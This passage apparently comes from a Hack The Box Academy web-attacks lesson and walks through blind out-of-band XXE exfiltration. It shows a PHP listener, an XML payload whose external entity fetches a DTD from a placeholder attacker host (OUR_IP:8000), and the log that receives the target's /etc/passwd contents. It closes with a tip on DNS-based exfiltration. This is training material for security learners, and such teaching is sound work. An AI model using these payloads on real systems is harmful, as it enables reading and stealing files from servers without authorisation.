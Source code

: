 So, we will first write the above PHP code to `index.php`, and then start a PHP server on port `8000`, as follows:

  Blind Data Exfiltration

```shell-session
ShibuShivansh@htb[/htb]$ vi index.php # here we write the above PHP code
ShibuShivansh@htb[/htb]$ php -S 0.0.0.0:8000

PHP 7.4.3 Development Server (http://0.0.0.0:8000) started
```

Now, to initiate our attack, we can use a similar payload to the one we used in the error-based attack, and simply add `<root>&content;</root>`, which is needed to reference our entity and have it send the request to our machine with the file content:

Code: xml

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %oob;
]>
<root>&content;</root>
```

Then, we can send our request to the web application: ![HTTP POST request to /blind/submitDetails.php with XML DOCTYPE for XXE attack, resulting in a 200 OK response instructing to check email.](https://academy.hackthebox.com/storage/modules/134/web_attacks_xxe_blind_request.jpg)

Finally, we can go back to our terminal, and we will see that we did indeed get the request and its decoded content:

  Blind Data Exfiltration

```shell-session
PHP 7.4.3 Development Server (http://0.0.0.0:8000) started
10.10.14.16:46256 Accepted
10.10.14.16:46256 [200]: (null) /xxe.dtd
10.10.14.16:46256 Closing
10.10.14.16:46258 Accepted

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...SNIP...
```

**Tip:** In addition to storing our base64 encoded data as a parameter to our URL, we may utilize `DNS OOB Exfiltration` by placing the encoded data as a sub-domain for our URL (e.g. `ENCODEDTEXT.our.website.com`), and then use a tool like `tcpdump` to capture any incoming traffic and decode the sub-domain string to get the data. Granted, this method is more advanced and requires more effort to exfiltrate data through.

## Automated OOB Exfiltration

